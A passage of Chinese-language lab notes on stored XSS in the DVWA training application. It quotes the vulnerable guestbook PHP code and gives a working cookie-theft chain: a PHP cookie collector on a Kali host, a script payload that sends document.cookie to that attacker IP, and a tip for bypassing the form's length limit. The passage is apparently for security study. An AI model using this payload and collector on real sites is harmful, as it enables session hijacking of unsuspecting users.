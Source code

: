    $query = "INSERT INTO guestbook (comment,name) VALUES ('$message','$name');";
    
    $result = mysql_query($query) or die('<pre>' . mysql_error() . '</pre>' );
    
    }
    
    ?>
    ```
  
  - 输入用户名 1111，密码为`<script>alert('xss')</script>`，然后任何一个机器点击页面的 XSS restored 都会触发 XSS 攻击
    - 获取 cookie：渗透机 Kali Linux 操作；肉鸡 windows
  
    1. 构建收集 cookie 服务器
    
        ```bash
        systemctl start apache2
    
        vim /var/www/html/cookie_rec.php
        <?php
        $cookie = $_GET['cookie'];
        $log = fopen("cookie.txt","a");
        fwrite($log,$cookie . "\n");
        fclose($log);
        ?>
        
        chown -R www-data.www-data /var/www/
        ```
       
    2. 构造 XSS 代码并植入到 web 服务器
  
       ```html
       # 通过渗透机植入XSS代码
       <script>window.open('http://192.168.50.128/cookie_rec.php?cookie='+document.cookie)</script>
       # 注：IP为Kali Linux的IP
       # 注：先清除之前植入的XSS代码 -> dvwa Setup
       # 前端有限制，F12，修改前端的maxlength
       ```
  
  3. 等待肉鸡触发 XSS 代码并将 cookie 发送至 Kali
    
     <img src="storexss-cookie-byhand.gif" alt="storexss-cookie-byhand" style="zoom:80%;" />
    
  4. cookie 利用

- medium security

  ```php
  <?php
  
  if(isset($_POST['btnSign']))
  {
  
     $message = trim($_POST['mtxMessage']);
     $name    = trim($_POST['txtName']);
     
     // Sanitize message input
     $message = trim(strip_tags(addslashes($message)));
     $message = mysql_real_escape_string($message);
     $message = htmlspecialchars($message);
      
     // Sanitize name input
     $name = str_replace('<script>', '', $name);
     $name = mysql_real_escape_string($name);
  ```